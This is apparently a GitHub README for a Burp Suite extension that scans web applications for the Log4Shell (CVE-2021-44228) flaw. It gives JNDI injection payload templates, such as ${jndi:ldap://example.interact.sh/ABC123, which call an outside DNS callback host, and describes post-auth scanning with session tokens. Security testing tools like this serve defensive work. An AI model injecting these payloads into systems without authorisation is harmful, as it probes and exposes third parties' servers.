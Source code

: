 <p align="left">
  <a href="https://github.com/0xDexter0us/Log4J-Scanner/releases">
    <img src="https://img.shields.io/github/release/0xDexter0us/Log4J-Scanner.svg">
  </a>
  <a href="https://github.com/0xDexter0us/Log4J-Scanner/releases">
    <img src="https://img.shields.io/github/downloads/0xDexter0us/Log4J-Scanner/total?label=downloads&logo=github&color=inactive" alt="github downloads">
  </a>
  <a href="https://github.com/0xDexter0us/Log4J-Scanner/">
      <img src="https://img.shields.io/github/stars/0xDexter0us/Log4J-Scanner.svg?style=social&label=Stars">
  </a>
  <a href="https://github.com/0xDexter0us/Log4J-Scanner/">
    <img src="https://img.shields.io/github/followers/0xDexter0us.svg?style=social&label=Follow">
  </a>
  <a href="https://twitter.com/intent/follow?screen_name=0xDexter0us">
      <img src="https://img.shields.io/twitter/follow/0xDexter0us.svg?style=social&label=Follow">
  </a>
  <a href="https://discord.gg/bugbounty">
      <img src="https://img.shields.io/badge/chat-on%20discord-7289da.svg">
  </a>

</p>
<h1 align="center">
<img src="images/log4j scanner.png" width="500" align="middle" style="vertical-align:top" >
 </h1>

<h4 align="center">Burp extension to scan Log4Shell (CVE-2021-44228) vulnerability pre and post auth.</h4>

---
## Disclaimer
> I am not responsible for your actions, burp-suite freezing, target getting hacked, thermonuclear war, or the current economic crisis caused by you following these directions. __YOU__ are choosing to use this tool, and if you point your finger at me for messing anything up, I will __LMAO__ at you.

---
![Log4J-Scanner](https://github.com/0xDexter0us/Log4J-Scanner/blob/main/images/log4j-scanner.png)

## Instructions:
 - You need to have a burp project with pre-existing history, it replays requests with payloads.
 - Add a DNS token from any service you prefer [interact.sh](https://app.interactsh.com), [pipedream](https://pipedream.com), [canarytokens](https://canarytokens.org), [dnslog.cn](https://dnslog.cn) or burp collaborator.
 - Either select one of the pre-defined payload or add a custom payload.
 - Add custom payload as: `${jndi:ldap://[dnstoken]/[random]` as `dnstoken`and `random` are place-holders, also remember __NOT__ to add `}`closing curly bracket.
 - Select location for payload insertion, headers or parameters or both.
 - For post-auth scanning add the complete cookie, auth header. Eg: `Authorization: Bearer ya29.m.CvkBAd1XLWYfLkuHFIuOYFCfcGI137rr...`
 - Hit **Hack The Planet** button.

## Important instructions to follow:

 - You'll need [Logger++](https://github.com/nccgroup/LoggerPlusPlus) or [Flow](https://github.com/hvqzao/burp-flow) extension to trace the request triggering the DNS callback.
 - Remember to add this extension above [Logger++](https://github.com/nccgroup/LoggerPlusPlus) or [Flow](https://github.com/hvqzao/burp-flow) to track all out going requests.

 ![Burp-Externder](https://github.com/0xDexter0us/Log4J-Scanner/blob/main/images/extender.png)

### How to track callbacks:

- Payload triggering callback will contain a 6 character unique ID
- Example payload `${jndi:ldap://example.interact.sh/ABC123` where `ABC123` will be the unique ID
- You can search for this ID in [Logger++](https://github.com/nccgroup/LoggerPlusPlus) or [Flow](https://github.com/hvqzao/burp-flow) to trace the request.

## Download releases
`https://github.com/0xDexter0us/Log4J-Scanner/releases/`

## Build from source
* `./gradlew build fatJar`
* Grab the jar file `build/libs/Log4J-Scanner-x.x.x.jar`

## Installation
1. Download the latest jar from releases or build from source.
2. Add the jar to Burp Suite.



#### If you like the project, please give the repo a star! <3

## Resources

- For passive scanning: `https://github.com/f0ng/log4j2burpscanner`
- For active scanning: `https://github.com/albinowax/ActiveScanPlusPlus`


## Changelog

**13 December 2021 - v.0.1.0**
 - First public release

## Thanks To

* CoreyD97 - https://github.com/CoreyD97


### This was coded be me within a day and is an initial release, bug might occur, bug reports, suggestions and pull requests all are welcome :)

-----

[![Join our Discord server!](https://invidget.switchblade.xyz/bugbounty)](http://discord.gg/bugbounty)

[![ko-fi](https://ko-fi.com/img/githubbutton_sm.svg)](https://ko-fi.com/Q5Q76ZT6K)
